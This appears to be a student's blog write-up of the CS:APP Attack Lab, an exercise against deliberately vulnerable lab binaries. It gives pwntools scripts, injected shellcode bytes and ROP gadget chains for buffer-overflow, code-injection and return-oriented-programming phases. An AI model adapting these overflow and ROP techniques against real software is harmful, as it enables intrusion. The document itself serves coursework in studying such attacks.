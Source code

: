 ```yaml
---
title: attacklab
date: 2020-07-26 01:16:49
tags:scapp
---
```


## Part1

### Phase 1

要求：让程序跳转到touch1()

一个简单的栈溢出

![image-20200724052306326](./attacklab/image-20200724052306326.png)

```
from pwn import *
import base64
touch1 = 0x004017C0					#要跳转的目的地址
payload = 0x28*"a"+p64(touch1)		
sixteen = base64.b16encode(payload)	 #字符串转十六进制
print(sixteen)
```

将得到的字符串，放入`result1.txt`文件中，并用空格每两个隔开

输入的字符串通过`hex2raw`转换，注入到ctarget文件中。

![image-20200724052751288](./attacklab/image-20200724052751288.png)



### Phase2

这次执行`touch2`，需要传一个参数，64位，需要用寄存器来传值

![image-20200724063042001](./attacklab/image-20200724063042001.png)

```
movq $0x59b997fa,%rdi
pushq $0x004017ec
retq
```

如上汇编程序code.s，使用 `gcc -c code.s` 编译，再用 `objdump -d code.o > code.d` 反汇编就能得到十六进制表示的机器代码，放入栈顶。然后在返回地址的位置上放上栈顶的地址即可。

```
0000000000000000 <.text>:
   0:	48 c7 04 25 00 00 00 	movq   $0x59b997fa,0x0
   7:	00 fa 97 b9 59 
   c:	68 ec 17 40 00       	pushq  $0x4017ec
  11:	c3                   	retq 
```

在`Gets`函数下断点

![image-20200724064211932](./attacklab/image-20200724064211932.png)

结果

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
51 51 51
51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
78 dc 61 55 00 00 00 00
```

![image-20200724064658623](./attacklab/image-20200724064658623.png)

---

![image-20200724060344539](./attacklab/image-20200724060344539.png)

？？堆栈不可执行，，，

```python
from pwn import *
import base64
cookie = 0x59b997fa
touch2 = 0x04017EC
pop_rdi = 0x040141b
payload = 0x20 * "a" + p64(cookie) + p64(pop_rdi)+p64(touch2)
sixteen = base64.b16encode(payload)
length = len(sixteen)
i=length
while(i!=0):
    front = sixteen[0:i*2]
    last = sixteen[i*2:len(sixteen)]
    sixteen = front + " " + last
    i-=1
print(last)
```

自己做的，不知道为什么不可以，用`pop rdi;ret`来传寄存器的值（使用的指令有限制）

---



### Phase3

![image-20200724154837597](./attacklab/image-20200724154837597.png)

![image-20200724154849347](./attacklab/image-20200724154849347.png)

touch2传的参数，是int值，而touch3传的却是地址。

在指导文件中告诉我们，当函数`hexmatch`和`strncmp`被调用时，它们将数据推送到堆栈上，覆盖保存`getbuf`使用的缓冲区的内存部分。所以我们不能直接将数据保存在`getbuf`的栈中，不然传过去后，在接下来的操作，会把字符串所在地址覆盖掉。

考虑调用它之前的栈中。因为函数调用时，还未开辟空间（rsp-28h），此时的栈顶还是（getbuf上层函数的栈），正我们需要的。

![image-20200724155428053](./attacklab/image-20200724155428053.png)

![image-20200724071404044](./attacklab/image-20200724071404044.png)

所以，栈顶是`0x5561dca0`，但是调用call指令执行的时候，还会把返回地址压栈，字符串的地址为`0x5561dca8`

原程序修改为

```
movq $0x5561dca8,%rdi
pushq $0x004018FA
retq
```

对应的机器码

```
0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

在栈上布置注入代码和覆盖返回地址还是和之前一样，唯一区别就是字符串的地址在a0.

cookie是0x59b997fa，对应的字符串表示形式是3539623939376661h

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![image-20200724160731668](./attacklab/image-20200724160731668.png)



## Part2

### Phase4

`popq %rax` 				机器码：`58 90`					 地址：`0x4019ab`

`movq %rax,%rdi`		机器码：`48 89 c7`				地址：`0x4019a2`

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq    
```

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3  
```

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00		<= pop rax
fa 97 b9 59 00 00 00 00		<= cookie
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

因为pop rax是返回地址，此时rsp已经加回去，也就是在pop rax这个位置，所以pop后，rsp指向下一条地址，所以把cookie放在下面

![image-20200724181042194](./attacklab/image-20200724181042194.png)



### Phase5

将cookie传入，并将地址传给rdi。

由于开启了alsr，地址不确定，考虑使用rsp标记的地址。

又因为有覆盖的问题，所以地址需要有一定的偏移量。但是没有add这样的指令，考虑使用lea。

步骤：

* 将`rsp`传送给`rdi`
* 计算字符串的偏移量，传送到`rsi`
* `lea (%rdi,%rsi,1),%rax`，将字符串的首地址传给`rax`
* 将`rax`传给`rdi`
* 调用`touch3`函数

| 阶段 | 代码                      | 机器码      | 地址     |
| :--: | ------------------------- | ----------- | -------- |
|  1   | movq %rsp, %rax           | 48 89 e0    | 0x401a06 |
|  1   | movq %rax, %rdi           | 48 89 c7    | 0x4019a2 |
|  2   | popq %rax                 | 58          | 0x4019cc |
|  2   | movl %eax, %edx           | 89 c2       | 0x4019dd |
|  2   | movl %edx, %ecx           | 89 d1       | 0x401a70 |
|  2   | movl %ecx, %esi           | 89 ce       | 0x401a13 |
|  3   | lea    (%rdi,%rsi,1),%rax | 48 8d 04 37 | 0x4019d6 |
|  4   | movq %rax, %rdi           | 48 89 c7    | 0x4019a2 |

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00	<= 覆盖量
06 1a 40 00 00 00 00 00 		<=rax = rsp	
a2 19 40 00 00 00 00 00 		<=rdi = rax = rsp				 1	
cc 19 40 00 00 00 00 00 		<=pop rax				     	 2
48 00 00 00 00 00 00 00 		<=0x48(偏移量)72			 	   3	
dd 19 40 00 00 00 00 00 		<=edx = eax				      	  4
70 1a 40 00 00 00 00 00 		<=ecx = edx = eax		    	  5
13 1a 40 00 00 00 00 00 		<=esi = ecx = edx = eax			  6
d6 19 40 00 00 00 00 00 		<=rax = rdi + rsi				 7
a2 19 40 00 00 00 00 00 		<=rdi = rax					     8	
fa 18 40 00 00 00 00 00 		<=函数地址						  9
35 39 62 39 39 37 66 61 00										10
```

因为此刻布置好的栈中，rsp距离字符串刚好10个字节，但执行这一句的时候，pop 返回地址，rsp+8，所以记录在rdi里面的地址距离字符串的地址是9个字节，也就是9*8=72（0x48）.

![image-20200726010934988](./attacklab/image-20200726010934988.png)












